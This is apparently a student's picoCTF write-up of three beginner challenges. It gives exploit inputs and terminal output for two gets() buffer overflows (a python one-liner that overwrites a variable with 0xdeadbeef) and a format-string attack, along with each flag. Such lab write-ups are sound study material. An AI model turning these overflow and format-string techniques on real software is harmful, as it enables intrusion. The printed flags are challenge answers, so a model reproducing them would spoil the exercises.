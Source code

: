 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using: nc saturn.picoctf.net 58311

## Solution:

Looking at the code you can figure out that the sigsegv_handler fuction gives the flag, the gets command is being used which is susceptible to buffer overflow as it does perform bounds checking. So all we need to do is enter an input larger than the size of the variable to get the flag.

    cookorcooked@ubuntu25:~$ nc saturn.picoctf.net 58311
    Input: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
    picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Learnt about buffer overflow and vulnerabilities of the gets function.

## Notes:

- NONE
  
## Resources:

- NONE

***

# 2. Format String 0

Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 60067

## Solution:

We are supposed to look for format specifiers to get a different output than expected, for customer one, we choose "Gr%114d_Cheese" as it has the format specifier %114d.

For the second customer we choose "Cla%sic_Che%s%steak" which has a format specifier %s which should give a srting. This gives us our flag

        cookorcooked@ubuntu25:~$ nc mimas.picoctf.net 60067
        Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
        Here comes the first customer Patrick who wants a giant bite.
        Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
        Enter your recommendation: Gr%114d_Cheese
        Gr                                                                                                           4202954_Cheese
        Good job! Patrick is happy! Now can you serve the second customer?
        Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
        Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
        Enter your recommendation: Cla%sic_Che%s%steak
        ClaCla%sic_Che%s%steakic_Che(null)
        picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}


## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Concepts learnt:

- Learnt about exploting vunlnerabilities using format specifiers.

## Notes:

- NONE
  
## Resources:

- NONE


***

# 3. clutter-overflow

Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution:

We want code=0xdeadbeef for the flag, since gets() is vulnerable to buffer overflow, we will exploit that. Variable size is 0x100 which is 256 in decimal.
We add \xef\xbe\xad\xde for deadbeef as hex are read two at a time in the opposite order. So I took 256As and added \xef\xbe\xad\xde at the end and reiterated this adding more AAAAs till I got the flag.

        cookorcooked@ubuntu25:~$ (python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890
         ______________________________________________________________________
        |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
        | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
        |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
        | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
        |^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
        | ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
        |^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
        | ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
        |^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
        .-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
        |     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
        | ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
        |'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
        |\|______|===============|________________|/|""""""""""""""""""""""""""
        " ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
        ""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
        """"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
        """""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
        My room is so cluttered...
        What do you see?
        code == 0xdeadbeef: how did that happen??
        take a flag for your troubles
        picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}


## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Learnt about how there can be variations to exploiting buffer overflow like clutter being added.

## Notes:

- NONE
  
## Resources:

- NONE

***


